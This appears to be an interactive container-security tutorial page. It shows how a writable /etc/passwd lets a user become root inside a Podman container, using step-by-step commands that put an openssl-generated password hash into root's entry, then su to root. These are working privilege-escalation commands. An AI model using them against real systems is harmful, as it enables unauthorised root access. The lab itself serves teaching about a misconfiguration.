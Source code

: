 The reason that it is possible for a user to become `root` when `/etc/passwd` is writable, is that although passwords are now stored in `/etc/shadow`, they were once upon a time stored in `/etc/passwd`. That functionality hasn't actually been disabled in Linux. You can manually add a password hash to `/etc/passwd` and it will still be used for authenticating a user.

To show the consequences of this, start a container with an interactive shell:

```execute
podman run -it --rm greeting bash
```

In the container, make a copy of the `/etc/passwd` file.

```execute
cp /etc/passwd /tmp/passwd
```

Generate a hashed password value, where the value of the password is `secret`.

```execute
HASHED_PASSWORD=`openssl passwd -1 secret`
```

Update the `/etc/passwd` file to set this hashed password as that for the `root` user.

```execute
cat /tmp/passwd | sed "s%root:x%root:${HASHED_PASSWORD}%" > /etc/passwd
```

Having updated the `/etc/passwd` file now execute `su` to be come `root`.

```execute
su root
```

You will be prompted for a password, enter:

```execute
secret
```

Verify what user you are by running:

```execute
id
```

The output should be:

```
uid=0(root) gid=0(root) groups=0(root)
```

indicating you are the `root` user inside of the container.

Stop the container by killing it.

```execute-2
podman kill `podman ps -ql`
```
